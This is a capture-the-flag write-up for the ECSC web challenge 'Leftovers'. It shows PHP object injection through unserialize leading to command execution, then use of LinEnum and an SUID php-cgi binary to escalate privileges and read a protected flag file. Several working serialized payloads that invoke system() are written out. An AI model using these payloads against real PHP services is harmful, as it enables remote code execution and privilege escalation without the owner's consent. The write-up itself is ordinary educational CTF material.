



# Leftovers
- Flag: `ECSC{ef9a617ce799f76035269111f29ddf61c0271435ecb2a357de07b5b0e6e41b24}`
- Category: `web`
- Points: `465`

## Summary
Code injection through PHP unserialize vulnerability and PHPObjectInjection, LinEnum and privilege escalation through PHP CGI.

Send this input:
`O:18:"PHPObjectInjection":1:{s:6:"inject";s:53:"system('/usr/bin/php-cgi5.6 /home/flavius/flag.txt');";}`

## Proof of Solving
We got an input with a placeholder that looks like a php serialized data and if we submit some data like this `a:3:{i:0;s:3:"Red";i:1;s:5:"Green";i:2;s:4:"Blue";}`, we get the unserialized version.

`a:3:{i:0;s:3:"Red";i:1;s:5:"Green";i:2;s:4:"Blue";}`

After some research, I found that I can use the PHPObjectInjection to execute some shell code.

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:13:"system('ls');";}`

Looks like it works. After I searched through files, I found a flag.txt file in `/home/flavius/flag.txt`, but unfortunately, we (www-data) don’t have access to read this file so we need to escalate privileges.

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:27:"system('ls /home/flavius');";}`

For this we’ll use LinEnum. It looked like we already had this script in /tmp at that time so we will use that with this payload:
`O:18:"PHPObjectInjection":1:{s:6:"inject";s:61:"system('cd /tmp;./LinEnum.sh -k flag -r report -e /tmp/ -t');";}`

In the printed output of the LinEnum, we will see that we have SUID and SGID on `/usr/bin/php-cgi5.6`

After some trial and error, I ran the CGI with the flag.txt path as a parameter and I got the flag:

`O:18:"PHPObjectInjection":1:{s:6:"inject";s:53:"system('/usr/bin/php-cgi5.6 /home/flavius/flag.txt');";}`
